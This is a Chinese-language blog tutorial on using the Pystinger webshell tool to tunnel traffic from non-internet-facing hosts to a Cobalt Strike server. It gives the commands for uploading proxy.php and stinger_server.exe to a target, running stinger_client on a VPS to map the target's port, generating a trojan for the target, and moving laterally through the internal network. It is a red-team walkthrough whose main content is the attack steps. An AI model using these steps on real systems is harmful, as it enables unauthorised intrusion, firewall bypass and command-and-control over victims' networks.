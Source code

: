 **目录**

[Pystinger](#t0 "Pystinger")

[实现多主机上线cs](#t1 "实现多主机上线cs")

[目标主机执行](#t2 "目标主机执行")

[VPS执行](#t3 "VPS执行")

[CS开启监听](#t4 "CS开启监听")

[生成木马](#t5 "生成木马")

[内网横向移动](#t6 "内网横向移动")

* * *

Pystinger
=========

一款利用webshell实现[内网](https://so.csdn.net/so/search?q=%E5%86%85%E7%BD%91&spm=1001.2101.3001.7020)socks4代理、端口映射的工具，可直接用于MSF/CS等上线。使用python编写， 当前支持php,jsp(x),aspx三种代理脚本 。

项目地址： [GitHub - FunnyWolf/pystinger: Bypass firewall for traffic forwarding using webshell 一款使用webshell进行流量转发的出网工具](https://github.com/FunnyWolf/pystinger "GitHub - FunnyWolf/pystinger: Bypass firewall for traffic forwarding using webshell 一款使用webshell进行流量转发的出网工具")

原地介绍： [红队攻防实践：不出网主机搭建内网隧道新思路](https://mp.weixin.qq.com/s/45AKbRS677fxynKW6Qfz7w "红队攻防实践：不出网主机搭建内网隧道新思路")

实现多主机上线cs
---------

### 目标主机执行

首先，将对应的脚本文件上传到目标网站目录，访问成功如下： [http://192.168.10.132:88/proxy.php](http://192.168.10.132:88/proxy.php "http://192.168.10.132:88/proxy.php")

![](https://img-blog.csdnimg.cn/2020083022234566.png)

然后将 stinger\_server.exe上传到目标服务器 ，执行如下命令：

```
start stinger_server.exe 0.0.0.0
```


![](https://img-blog.csdnimg.cn/2020083022241058.png)

### VPS执行

然后将stinger\_client上传到vps，执行如下命令

```
./stinger_client -w http://192.168.10.132:88/proxy.php -l 0.0.0.0 -p 60000
```


![](https://img-blog.csdnimg.cn/20200830222437623.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

此时已经将目标服务器的60020[端口映射](https://so.csdn.net/so/search?q=%E7%AB%AF%E5%8F%A3%E6%98%A0%E5%B0%84&spm=1001.2101.3001.7020)到VPS的60020端口了

### CS开启监听

这里的http host填目标机器的**内网IP**，端口填上面RAT Config中的端口，默认为60020

![](https://img-blog.csdnimg.cn/20200830222530592.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 生成木马

生成木马，[监听](https://so.csdn.net/so/search?q=%E7%9B%91%E5%90%AC&spm=1001.2101.3001.7020)器选择刚刚创建的test监听器，将木马放到目标主机运行。运行成功后，我们的vps可以看到有数据交互

![](https://img-blog.csdnimg.cn/20200830222549673.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

并且CS这边也上线了

![](https://img-blog.csdnimg.cn/20200830222604319.png)

### 内网横向移动

内网继续横向移动时，由于内网其他主机也是对外不通的，所以监听器使用刚刚创建的test监听器即可。

![](https://img-blog.csdnimg.cn/20200830222623297.png)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)